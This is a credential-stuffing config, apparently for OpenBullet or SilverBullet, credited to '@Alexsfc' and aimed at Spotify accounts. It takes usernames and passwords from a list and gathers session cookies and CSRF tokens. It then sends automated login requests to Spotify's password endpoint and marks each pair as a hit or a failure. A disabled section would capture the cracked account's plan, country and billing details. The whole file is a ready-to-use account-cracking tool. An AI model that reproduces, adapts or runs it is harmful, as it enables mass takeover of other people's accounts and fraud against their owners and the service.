 [SETTINGS]
{
  "Name": "[Spotify] @Alexsfc",
  "SuggestedBots": 100,
  "MaxCPM": 0,
  "LastModified": "2024-06-10T09:53:38.8218147+02:00",
  "AdditionalInfo": "",
  "RequiredPlugins": [],
  "Author": "@Alexsfc",
  "Version": "1.1.4 [SB]",
  "SaveEmptyCaptures": false,
  "ContinueOnCustom": false,
  "SaveHitsToTextFile": false,
  "IgnoreResponseErrors": false,
  "MaxRedirects": 8,
  "NeedsProxies": false,
  "OnlySocks": false,
  "OnlySsl": false,
  "MaxProxyUses": 0,
  "BanProxyAfterGoodStatus": false,
  "BanLoopEvasionOverride": -1,
  "EncodeData": false,
  "AllowedWordlist1": "",
  "AllowedWordlist2": "",
  "DataRules": [],
  "CustomInputs": [],
  "CaptchaUrl": "",
  "IsBase64": false,
  "FilterList": [],
  "EvaluateMathOCR": false,
  "SecurityProtocol": 0,
  "ForceHeadless": false,
  "AlwaysOpen": false,
  "AlwaysQuit": false,
  "QuitOnBanRetry": false,
  "AcceptInsecureCertificates": true,
  "DisableNotifications": false,
  "DisableImageLoading": false,
  "DefaultProfileDirectory": false,
  "CustomUserAgent": "",
  "RandomUA": false,
  "CustomCMDArgs": "",
  "Title": "[Spotify] @Alexsfc",
  "IconPath": "Icon\\svbfile.ico",
  "LicenseSource": null,
  "Message": null,
  "MessageColor": "#FFFFFFFF",
  "HitInfoFormat": "[{hit.Type}][{hit.Proxy}] {hit.Data} - [{hit.CapturedString}]",
  "AuthorColor": "#FFFFB266",
  "WordlistColor": "#FFB5C2E1",
  "BotsColor": "#FFA8FFFF",
  "CustomInputColor": "#FFD6C7C7",
  "CPMColor": "#FFFFFFFF",
  "ProgressColor": "#FFAD93E3",
  "HitsColor": "#FF66FF66",
  "CustomColor": "#FFFFB266",
  "ToCheckColor": "#FF7FFFD4",
  "FailsColor": "#FFFF3333",
  "RetriesColor": "#FFFFFF99",
  "OcrRateColor": "#FF4698FD",
  "ProxiesColor": "#FFFFFFFF"
}

[SCRIPT]
#US FUNCTION URLEncode "<USER>" -> VAR "US" 

#PAS FUNCTION URLEncode "<PASS>" -> VAR "PAS" 

#UID FUNCTION GenerateGUID -> VAR "UID" 

#GET_CK REQUEST GET "https://accounts-gue1.spotify.com/floss/start/05-401deaa9-010d-4ae3-a9e2-d26187093d5e;1;f0855d8a-aeea-4adb-9a58-f9f0d27eb632" 
  
  HEADER "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36" 
  HEADER "Pragma: no-cache" 
  HEADER "Accept: */*" 

#hst PARSE "<COOKIES>" LR "__Host-state," ")" -> VAR "hst" 

#did PARSE "<COOKIES>" LR "__Host-device_id," ")" -> VAR "did" 

#csrf PARSE "<COOKIES>" LR "sp_sso_csrf_token," ")" -> VAR "csrf" 

#csrfid PARSE "<COOKIES>" LR "__Host-sp_csrf_sid," ")" -> VAR "csrfid" 

#LEN FUNCTION Length "username=<US>&password=<PAS>&remember=true&continue=https%3A%2F%2Faccounts-gue1.spotify.com%2Ffloss%2Fcomplete%2F05-401deaa9-010d-4ae3-a9e2-d26187093d5e%3B2%3B044e1130-1a91-4b3c-814a-a8cdaa19db04%3Fstate%3D3-U4aKVH3XRWSij_OZXIEEpFeZxQg8esnqOyWlbUGTPwI2gdjSbM41lmMYRK7oJ7wq4UJOtSCN7pvTSCL0iEIw%26flow_ctx%3Df80afa0b-af40-4765-ab13-429aec3d8545%253A1707078938&listenerAppExperiment=true&flowCtx=<UID>%3A1707078938" -> VAR "LEN" 

#POST_LOGIN REQUEST POST "https://accounts.spotify.com/login/password" 
  CONTENT "username=<US>&password=<PAS>&remember=true&continue=https%3A%2F%2Faccounts-gue1.spotify.com%2Ffloss%2Fcomplete%2F05-401deaa9-010d-4ae3-a9e2-d26187093d5e%3B2%3B044e1130-1a91-4b3c-814a-a8cdaa19db04%3Fstate%3D3-U4aKVH3XRWSij_OZXIEEpFeZxQg8esnqOyWlbUGTPwI2gdjSbM41lmMYRK7oJ7wq4UJOtSCN7pvTSCL0iEIw%26flow_ctx%3Df80afa0b-af40-4765-ab13-429aec3d8545%253A1707078938&listenerAppExperiment=true&flowCtx=<UID>" 
  CONTENTTYPE "application/x-www-form-urlencoded" 
  HEADER "Accept: application/json" 
  HEADER "Accept-Encoding: gzip, deflate, br" 
  HEADER "Connection: keep-alive" 
  HEADER "Content-Length: 481" 
  HEADER "Content-Type: application/x-www-form-urlencoded" 
  HEADER "Cookie: __Host-device_id=<did>; __Secure-TPASESSION=AQD6RcNzHjvL3S7Q0asg3rxTqExDU7O6JzCx5VaEgsTD0m3RTs/rOjKb/rA9I9KzAQjgti6qCiGb7ML31N2+KPdXqXINIzR48tU=; sp_tr=false; sp_sso_csrf_token=<csrf>; __Host-sp_csrf_sid=<csrfid>; remember=<US>" 
  HEADER "Host: accounts.spotify.com" 
  HEADER "Origin: https://accounts.spotify.com" 
  HEADER "Referer: https://accounts.spotify.com/pt-BR/login?method=password&signup=none&nolinks=1&client_id=9a8d2f0ce77a4e248bb71fefcb557637&continue=https%3A%2F%2Faccounts-gue1.spotify.com%2Ffloss%2Fcomplete%2F05-401deaa9-010d-4ae3-a9e2-d26187093d5e%3B2%3B044e1130-1a91-4b3c-814a-a8cdaa19db04&listener_app=1&max_age=0&state=3-U4aKVH3XRWSij_OZXIEEpFeZxQg8esnqOyWlbUGTPwI2gdjSbM41lmMYRK7oJ7wq4UJOtSCN7pvTSCL0iEIw&flow_ctx=f80afa0b-af40-4765-ab13-429aec3d8545%3A1707078938" 
  HEADER "User-Agent: Mozilla/5.0 (Linux; Android 9; G011A Build/PI) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.70 Mobile Safari/537.36" 
  HEADER "X-CSRF-Token: <csrf>" 

#VALIDA_RESULTADOS KEYCHECK 
  KEYCHAIN Success OR 
    KEY "\"result\":\"" 
  KEYCHAIN Failure OR 
    KEY "{\"error\":\"errorInvalidCredentials\"}" 
    KEY "<RESPONSECODE>" Contains "400" 

!REQUEST GET "https://www.spotify.com/br-pt/api/account/v1/datalayer/" 
!  
!  HEADER "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36" 
!  HEADER "Pragma: no-cache" 
!  HEADER "Accept: */*" 

!KEYCHECK BanOnToCheck=FALSE 
!  KEYCHAIN Custom "FREE" OR 
!    KEY "free" 
!  KEYCHAIN Success OR 
!    KEY "isTrialUser\":false," 
!  KEYCHAIN Custom "CUSTOM" OR 
!    KEY "isTrialUser\":true," 

!PARSE "<SOURCE>" JSON "isTrialUser" CreateEmpty=FALSE -> CAP "isTrialUser" 

!PARSE "<SOURCE>" JSON "currentPlan" CreateEmpty=FALSE -> CAP "Plan" 

!PARSE "<SOURCE>" JSON "country" CreateEmpty=FALSE -> CAP "country" 

!PARSE "<SOURCE>" JSON "daysLeft" CreateEmpty=FALSE -> CAP "daysLeft" 

!PARSE "<SOURCE>" JSON "value" CreateEmpty=FALSE -> CAP "value" 

!PARSE "<SOURCE>" LR "nextBillingInfo" "" CreateEmpty=FALSE -> CAP "nextBillingInfo" 

FUNCTION Constant "@Alexsfc" -> CAP "Config By" 

